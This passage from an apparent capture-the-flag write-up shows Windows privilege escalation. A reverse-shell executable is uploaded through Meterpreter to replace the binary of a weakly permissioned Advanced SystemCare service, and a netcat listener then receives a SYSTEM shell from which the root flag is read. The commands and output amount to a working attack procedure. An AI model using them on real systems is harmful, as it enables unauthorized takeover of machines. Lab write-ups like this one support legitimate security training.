 From the `meterpreter` shell in `msfconsole -q`, upload the `reverse shell` payload.
{% capture code %}{% raw %}meterpreter > upload /root/ASCService.exe
[*] uploading  : /root/ASCService.exe -> ASCService.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/ASCService.exe -> ASCService.exe
[*] uploaded   : /root/ASCService.exe -> ASCService.exe

meterpreter > powershell_shell
PS > stop-service AdvancedSystemCareService9

copy "c:\users\bill\desktop\ASCService.exe" "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a `netcat` listener.
{% capture code %}{% raw %}rlwrap -cAr nc -lnvp 4443{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 4443){% endraw %}{% endcapture %} {% include code.html code=code %}

From the `msfconsole -q` shell, start the exploited shell to spawn `privilege shell`.
{% capture code %}{% raw %}PS > start-service AdvancedSystemCareService9{% endraw %}{% endcapture %} {% include code.html code=code %}

Check the `netcat` listener for connection, and get the flag.
{% capture code %}{% raw %}Connection from <target-ip> 49287 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd ../..
cd ../..

C:\>dir /s /p root.txt
dir /s /p root.txt
Volume in drive C has no label.
Volume Serial Number is 2E4A-906A

Directory of C:\Users\Administrator\Desktop

09/27/2019  05:41 AM                32 root.txt
            1 File(s)             32 bytes

    Total Files Listed:
            1 File(s)             32 bytes
            0 Dir(s)  44,153,417,728 bytes free

C:\>more "C:\Users\Administrator\Desktop\root.txt"
more "C:\Users\Administrator\Desktop\root.txt"
<flag>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 4 - Access and Escalation Without Metasploit
